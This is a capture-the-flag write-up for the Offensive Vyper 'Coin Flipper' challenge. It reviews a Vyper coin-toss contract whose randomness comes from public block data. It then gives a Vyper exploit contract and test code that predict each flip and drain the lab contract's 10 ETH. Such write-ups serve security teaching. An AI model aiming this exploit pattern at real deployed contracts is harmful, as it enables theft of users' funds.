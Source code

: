 ## 1) Challenge

> <cite>The Coin Flipper is a true/false coin-toss with a 50% chance of either. It costs one Ether to play, but pays two Ether on a correct guess. On a long enough timescale, players are expected to break even. Your objective is to not break even; drain all ten Ether from the contract.</cite>

Challenge created by [@jtriley_eth](https://twitter.com/jtriley_eth).


## 2) Code Review

This challenge has two contracts: `CoinFlipper`, used to handle the coin-toss logic, and `RandomNumber`, used to generate random numbers.

`CoinFlipper.vy` contract ([source code](https://github.com/JoshuaTrujillo15/offensive_vyper/blob/main/contracts/coin-flipper/CoinFlipper.vy)):

```python

# @version ^0.3.2

"""
@title Coin Flipper
@author jtriley.eth
"""

interface Rng:
    def generate_random_number() -> uint256: nonpayable


event Winner:
    account: indexed(address)
    amount: uint256


generator: public(address)

cost: constant(uint256) = 10 ** 18


@external
@payable
def __init__(generator: address):
    self.generator = generator


@external
@payable
def flip_coin(guess: bool):
    """
    @notice Takes a guess and 1 ether. If correct, it pays 2 ether.
    @param guess Heads or Tails (true for heads).
    @dev Throws when value is not 1 ether.
    """
    assert msg.value == cost, "cost is 1 ether"

    side: bool = Rng(self.generator).generate_random_number() % 2 == 0

    if side == guess:

        amount: uint256 = cost * 2

        send(msg.sender, amount)

        log Winner(msg.sender, amount)


```

The main function of this contract is `flip_coin`: 

- it accepts a boolean value (the guess)
- it checks if `1` ETH is sent (line `36`).
- it calls the `generate_random_number` from the `RandomNumber` contract and checks if module `2` of the result is equal to `0` (line `38`)
- the resulting boolean value is compared with the `guess` parameter (line `40`)
- if they are equal, the sender will receive `2` ETH (lines `42-44`)

`RandomNumber.vy` contract ([source code](https://github.com/JoshuaTrujillo15/offensive_vyper/blob/main/contracts/coin-flipper/RandomNumber.vy))

```python

# @version ^0.3.2

"""
@title Random Number Generator
@author jtriley.eth
"""

nonce: public(uint256)

@external
def generate_random_number() -> uint256:
    """
    @notice Generates a random number for the caller.
    @dev Increment nonce to ensure two contracts don't receive the same value in the same block.
    """
    digest: bytes32 = keccak256(
        concat(
            block.prevhash,
            convert(block.timestamp, bytes32),
            convert(block.difficulty, bytes32),
            convert(self.nonce, bytes32)
        )
    )

    self.nonce += 1

    return convert(digest, uint256)

```

It exposes only one function, `generate_random_number` that is responsible for computing a random number:
- it uses block information like the previous hash, timestamp and the difficulty
- it concatenates all these values with also a `nonce` variable
- finally, it computes the `keccak256` of this value and increments the nonce by `1`

Generating random numbers has always been challenging in the blockchain context. In this case, everyone can also know the source of randomness used (i.e. the block information) since this information is public. 

#### How can we guess the right coin flip?

Given that we can access the same information that the `generate_random_number` uses to compute the "random" number, to guess the right coin flip, we can replicate the code inside the function, calculate the boolean value and then call the `flip_coin`. 

We need to replicate the code inside `generate_random_number` and not simply call that function because, at every call, it updates the `nonce` variable. So if we first call `generate_random_number` to compute the value and then pass the resulting boolean value to `flip_coin`, `generate_random_number` will be called again, but the nonce will be different from the one we used, leading to a potentially different result. So, if we replicate the code, we can also replicate the nonce value and compute the right guess.

## 3) Solution

The solution consists of different steps:
- call our contract function, sending `1` ETH
- compute the same random number using the same code of `generate_random_number`
- call `flip_coin` we the value just computed
- increment the nonce
- Repeat these steps ten times until we drained all the founds (the balance of the `CoinFlip` contract is `10` ETH, so if each time we win, we'll decrease the balance by one)


`coin-flipper.challenge.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let exploit = await (await ethers.getContractFactory('CoinFlipperExploit', deployer)).deploy(this.coinFlipper.address)

        await exploit.connect(attacker).run({
            value: ethers.utils.parseEther('1')
        });

    })

```


`CoinFlipperExploit.vy`:
```python

# YOUR EXPLOIT HERE
@internal
def guess(nonce: uint256) -> bool:
    digest: bytes32 = keccak256(
        concat(
            block.prevhash,
            convert(block.timestamp, bytes32),
            convert(block.difficulty, bytes32),
            convert(nonce, bytes32)
        )
    )

    return convert(digest, uint256) % 2 == 0

@external
@payable
def run():
    assert msg.value == 10 ** 18, "Not enough ETH"

    for nonce in range(10):       
        raw_call(
            self.target,
            _abi_encode(self.guess(nonce), method_id=method_id("flip_coin(bool)")),
            value=msg.value
        )
            
@external
@payable
def __default__():
    pass

```


You can find the complete code [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/test/coin-flipper.challenge.js) and [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/contracts/exploits/CoinFlipperExploit.vy).

## 4) References

- [SWC-120 - Weak Sources of Randomness from Chain Attributes](https://swcregistry.io/docs/SWC-120)